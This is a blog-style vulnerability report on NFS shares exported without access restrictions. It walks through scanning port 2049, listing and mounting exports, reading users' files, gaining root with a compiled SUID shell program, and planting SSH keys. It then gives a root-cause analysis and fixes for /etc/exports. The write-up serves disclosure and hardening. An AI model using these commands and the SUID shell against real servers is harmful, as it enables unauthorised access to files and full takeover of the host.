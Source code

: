 ```yaml
---
layout:     post
title:      Report on Unauthenticated NFS Access Vulnerability in Certain Servers
subtitle:   Cybersecurity
date:       2024-11-29
author:     UPOJZSB
header-img: img/post-bg-random.jpg
catalog: true
tags:
    - NFS
    - Linux
    - Cybersecurity
---
```


# Background

NFS (Network File System) is commonly used for sharing file systems across clusters or multiple servers. However, due to misconfiguration or oversight, some servers have NFS services running without proper IP-based access restrictions. As a resule, within the `10.0.0.0/8` subnet, hosts other than the intended targets (e.g., internal clusters or servers) can access the NFS file systems without authorization. This poses a significant risk of file leakage and other security threats. 

# Attack Chain

## Host Scan

By default, NFS services use TCP port `2049`. An attacker can utilize tools like nmap to scan hosts in the subnet and identify machines offering NFS services.

### Example Scan
```bash
nmap -p 2049 ipaddr
```

### Sample Output
```bash
Nmap scan report for ipaddr
Host is up (0.0055s latency).

PORT    STATE   SERVICE
2049/tcp    open    nfs
```

## Shared Directory Query

Next, the attacker can use `showmount` to query shared NFS directories:

### Input

```bash
showmount -e ipaddr
```

### Output

```bash
Export list for ipaddr:
/opt    *
/home   *
```

## Mount the NFS File System to Localhost

Although SSH access is protected by key-based authentication:

### Input

```bash
ssh usernam@ipaddr
```


### Output

```bash
username@ipaddr: Permission denied (publickey, gssapi-keyex, gssapi-with-mic)
```

The attacker can still mount the `/home/ directory via NFS and access its contents:

```bash
mount -t nfs ipaddr:/home/ /mnt
cd /mnt
ls -lah
# (total output omitted)
cd some_directory
cat .bashrc
# (contents omitted)
```

This confirms that the NFS service lacks proper access controls.

## Privilege Escalation

If the attacker has any user-level access on the server, they can escalate privileges to **root** by leveraging the mounted NFS and creating a SUID binary.

### Example: `suid_shell.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(void)
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

### Compilation and SUID Setup

```bash
gcc suid_shell.c -o suid_shell -static -static-libgcc -static-libstdc++
chmod +s ./suid_shell
```

### Execution by a Normal User

```bash
id
# uid=1012(username) gid=1012(username) groups=1012(username),1014(group)
./suid_shell
id
# uid=0(root) gid=1012(username) groups=1012(username),1014(group)
```

This results in full root access.

#### Update April 8 2025

If the `/home` or other potential user directories are also shared (which is common for sharing disk array with same user configurations), attacker could add his/her own ssh public key(s) to the target machine's `~user/.ssh/authorized_keys` to get ordinary user (or even `root` user when `/root` is also shared) access.


# Root Cause Analysis

The NFS access control settings are defined in `/etc/exports`. The configuration on the affected server was:

```bash
cat /etc/exports

/home   *(rw, insecure, no_root_squash, sync)
/opt    *(rw, insecure, no_root_squash, sync)
```

This configuration allows any host (`*`) to access the shared directories, with no effective access restriction.

# Recommendations

To address this vulnerability:

* Modify teh `/etc/exports` file to **restrict access** to specific IP addresses or subnets.
* Set appropriate permissions according to operational needs.
* Review and monitor access to ensure unauthorized hosts cannot mount the NFS shares.

These measures will reduce the risk of unauthorized access and improve overall system security.